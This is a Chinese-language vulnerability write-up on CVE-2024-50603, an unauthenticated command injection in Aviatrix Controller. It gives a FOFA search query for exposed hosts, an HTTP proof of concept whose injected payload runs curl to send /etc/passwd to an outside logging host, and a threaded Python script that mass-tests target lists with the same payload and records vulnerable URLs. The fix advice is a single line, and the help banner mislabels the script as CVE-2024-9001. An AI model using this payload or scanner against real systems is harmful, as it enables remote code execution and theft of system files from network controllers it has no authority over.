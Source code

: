 # 漏洞描述
<font style="color:rgb(52, 58, 64);">在Aviatrix Controller的7.1.4191版本之前以及7.2.x在7.2.4996版本之前存在一个漏洞。由于未正确处理操作系统命令中的特殊元素，未经身份验证的攻击者可以执行任意代码。云类型中的/v1/api用于发送shell元字符到list_flightpath_destination_instances或src_cloud_type的flightpath_connection_test。</font>

# <font style="color:rgb(52, 58, 64);">参考链接</font>
[https://www.securing.pl/en/cve-2024-50603-aviatrix-network-controller-command-injection-vulnerability/](https://www.securing.pl/en/cve-2024-50603-aviatrix-network-controller-command-injection-vulnerability/)

# fofa
title="Aviatrix Controller"

# 披露时间
<font style="color:rgb(33, 37, 41);">2025-01-08</font>

# <font style="color:rgb(33, 37, 41);">漏洞复现</font>

poc

```http
POST /v1/api HTTP/1.1
Host: 
Content-Length: 177
Content-Type: application/x-www-form-urlencoded
 
action=list_flightpath_destination_instances&CID=anything_goes_here&account_name=1&region=1&vpc_id_name=1&cloud_type=1|$(curl+-X+POST+-d+"@/etc/passwd"+http://test.xhs99.eyes.sh)
```

![](https://cdn.nlark.com/yuque/0/2025/png/46595937/1736393692721-f985b6aa-7926-4380-ad56-1aae4b671c44.png)

![](https://cdn.nlark.com/yuque/0/2025/png/46595937/1736393711986-d8c6069c-91d9-48f5-b21b-8d8b879fc581.png)

# py脚本
```python
#coding:utf-8
import argparse
import requests
import re
import time
import random
import base64
import json
import concurrent.futures
import sys
import urllib


# 禁用 SSL 警告
requests.packages.urllib3.disable_warnings()

timeout = 10  # 请求超时时间

def verify(url, proxies={}):
    if not url.startswith(('http://', 'https://')):
        # 如果没有，就添加 'http://'
        url = 'http://' + url
    try:
        num = str(random.randint(1000, 9999))
        dns = f'https://eyes.sh/api/dns/xhs99/{num}/?token=8398ce3f'
        path = "/v1/api"
        vul_url = url + path
        header = {
            'Content-Length': '177',
            'Content-Type': 'application/x-www-form-urlencoded'
        }
        data = '''action=list_flightpath_destination_instances&CID=anything_goes_here&account_name=1&region=1&vpc_id_name=1&cloud_type=1|$(curl+-X+POST+-d+"@/etc/passwd"+http://'''+ num +'''.xhs99.eyes.sh)'''
        res = requests.post(vul_url, data=data, headers=header, verify=False, timeout=timeout, proxies=proxies, allow_redirects=False)
        a = requests.get(dns, verify=False, timeout=timeout, proxies=proxies, allow_redirects=False)
        if res.status_code == 200:
            if "True" in a.text:
                print('\033[1;31m' + '[+] Success ' + url + '\033[0m')
                with open('CVE-2024-50603.txt', 'a') as f:
                    f.write(url + '\n')
        else:
            print("[-] No vulnerabilities found")
        # if response.status_code == 200:
        #     print('[+] Verified')
        # else:
        #     print('[-] Verification Failed')
    except requests.exceptions.RequestException as e:
        print(e)

def pl(filename):
    try:
        with open(filename, 'r', encoding='utf-8') as f:
            urls = [line.strip() for line in f.readlines() if line.strip()]
        return urls
    except Exception as e:
        print(f"[-] Error reading file {filename}: {e}")
        return []

def help():
    # helpinfo = """ """
    # print(helpinfo)
    print("CVE-2024-9001".center(100, '*'))
    print(f"[+]{sys.argv[0]} -u --url http://www.xxx.com 即可进行单个漏洞检测")
    print(f"[+]{sys.argv[0]} -f --file targetUrl.txt 即可对选中文档中的网址进行批量检测")
    print(f"[+]{sys.argv[0]} -p --proxies 代理设置")
    print(f"[+]{sys.argv[0]} -t --thread 线程设置，默认为10")
    print(f"[+]{sys.argv[0]} -h --help 查看更多详细帮助信息")
    print("--@ztomato".rjust(100," "))

def main():
    parser = argparse.ArgumentParser(description='@ztomato')
    parser.add_argument('-u','--url', type=str, help='单个漏洞网址')
    parser.add_argument('-f','--file', type=str, help='批量检测文本')
    parser.add_argument('-t','--thread',type=int, help='线程，默认为10')
    parser.add_argument('-p', '--proxies', type=str, help='代理设置，如 http://127.0.0.1:8080')
    args = parser.parse_args()

    proxies = {}
    if args.proxies:
        proxies = {'http': args.proxies, 'https': args.proxies}

    if args.url:
        verify(args.url, proxies)
    elif args.file:
        urls = pl(args.file)
        if not urls:
            print(f"[-] No valid URLs found in {args.file}")
            return

        thread = 10
        if args.thread:
            thread = args.thread
        with concurrent.futures.ThreadPoolExecutor(max_workers=thread) as executor:
            # 使用 executor.map 实现并发调用
            results = list(executor.map(lambda url: verify(url, proxies), urls))
            # 可选：打印结果
            # for result in results:
            #     if result and result.get('isVul'):
            #         print(f"[+] Vulnerability confirmed for {result['url']}")
    else:
        help()

if __name__ == '__main__':
    main()
```

# 修复建议
<font style="color:rgb(52, 58, 64);">"将组件 Controller 升级至 7.2.4996 及以上版本"</font>

